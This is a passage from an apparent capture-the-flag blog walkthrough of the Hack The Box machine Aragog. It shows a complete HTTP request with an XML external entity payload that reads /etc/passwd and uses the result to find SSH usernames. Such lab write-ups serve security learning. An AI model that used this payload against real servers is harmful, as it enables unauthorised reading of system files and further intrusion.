 ```console
GET /hosts.php HTTP/1.1
Host: 10.10.10.78
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 211

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
```

This prints out contents of the */etc/passwd/file*. 

<img src="/img/blog/htb-aragog/htb-aragog-04.png">

> Note: There are also methods which would allow you to execute PHP code such as php://input filter, however they didn't work.

You could easily automate this and make a simple python script which would make this output a lot nicer (or simply view the page source manually to beautify the output). For the sake of keeping this blogpost short, let's not (sorry :P). Anyways, 2 users pop up - **florian** and **cliff**. Upon trying to login as either of them to SSH, we get the following error:
